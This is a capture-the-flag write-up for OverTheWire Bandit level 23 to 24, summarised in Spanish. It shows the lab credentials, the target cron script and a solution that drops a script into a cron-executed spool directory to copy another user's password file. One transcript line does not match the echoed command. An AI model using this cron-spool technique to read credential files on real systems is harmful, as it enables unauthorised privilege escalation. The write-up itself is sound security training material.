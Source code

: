 # Level-23 -> Level-24

### Level Goat
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…
### Credentials
ssh bandit23@bandit.labs.overthewire.org -p 2220
password: **QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G**
### Solution
```shell                          
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo || exit 1
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -rf ./$i
    fi
done

bandit23@bandit:~$ mkdir /tmp/passtmp
bandit23@bandit:~$ cd /tmp/passtmp
bandit23@bandit:/tmp/passtmp$ echo "cat /etc/bandit_pass/bandit24 >> /tmp/passtmp/password" > mio.sh 
bandit23@bandit:/tmp/passtmp$ ls
mio.sh
bandit23@bandit:/tmp/passtmp$ cat mio.sh 
cat /etc/bandit_pass/bqandit24 >> /tmp/passtmp/password
bandit23@bandit:/tmp/passtmp$ chmod 777 mio.sh 
bandit23@bandit:/tmp/passtmp$ touch password
bandit23@bandit:/tmp/passtmp$ chmod 666 password 


bandit23@bandit:/tmp/passtmp$ cp mio.sh /var/spool/bandit24/foo/
bandit23@bandit:/tmp/passtmp$ ls -l
total 4
-rwxrwxrwx 1 bandit23 bandit23 55 Aug 31 20:37 mio.sh
-rw-rw-rw- 1 bandit23 bandit23  0 Aug 31 20:38 password
bandit23@bandit:/tmp/passtmp$ ls -l
total 8
-rwxrwxrwx 1 bandit23 bandit23 55 Aug 31 20:37 mio.sh
-rw-rw-rw- 1 bandit23 bandit23 33 Aug 31 20:44 password

bandit23@bandit:/tmp/passtmp$ cat password 
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
bandit23@bandit:/tmp/passtmp$
```
### Summary
observamos el script que se ejecuta en el crontab y nos damos cuenta que lo que hace es ejecutar todos los scripts que estén en la carpeta /var/spool/$myname/foo y después los elimina así que metemos un script a esa carpeta que lo que haga es leer la contraseña del usuario y mandarla a un archivo al que tengamos acceso 
## Script
![[mio.sh]]
### FLAG
**VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar** 